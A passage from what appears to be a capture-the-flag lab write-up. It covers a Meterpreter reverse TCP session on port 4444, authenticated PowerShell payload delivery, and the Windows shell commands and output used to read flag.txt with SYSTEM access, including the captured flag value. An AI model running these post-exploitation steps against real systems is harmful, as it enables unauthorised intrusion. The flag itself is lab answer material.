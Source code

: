**✅ Exploitation Analysis:**
- **Handler Started:** Reverse TCP connection established on port 4444
- **Authentication Success:** Administrator credentials validated
- **Payload Delivery:** PowerShell target selected and payload executed
- **Meterpreter Session:** Interactive session 1 established successfully  
- **System Access:** Full system-level access achieved

#### **Phase 5: Post-Exploitation and Flag Capture**
```bash
# Drop to system shell
shell
cd /
dir
type flag.txt

# Expected output from lab:
meterpreter > shell
Process 2952 created.
Channel 1 created.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>cd /
cd /

C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 3E75-72A0

 Directory of C:\

09/25/2020  06:41 AM    <DIR>          admin
09/25/2020                      32 flag.txt
02/23/2018  11:06 AM    <DIR>          PerfLogs
12/13/2017  09:00 PM    <DIR>          Program Files
09/25/2020  06:43 AM    <DIR>          Program Files (x86)
09/25/2020  06:42 AM    <DIR>          public
09/25/2020  06:15 AM    <DIR>          Users
09/25/2020  06:14 AM    <DIR>          Windows
               1 File(s)             32 bytes
               7 Dir(s)  15,796,563,968 bytes free

C:\>type flag.txt
type flag.txt
e0da81a9cd42b261bc9b90d15f780433

C:\>
```

**🏆 Mission Accomplished:**
- **System Shell Access:** Full command-line access to Windows system
- **File System Navigation:** Can browse entire C:\ drive structure
- **Flag Discovery:** Located flag.txt in root directory (32 bytes)
- **Flag Capture:** Successfully retrieved flag: e0da81a9cd42b261bc9b90d15f780433
- **Administrative Privileges:** Operating with SYSTEM-level permissions

---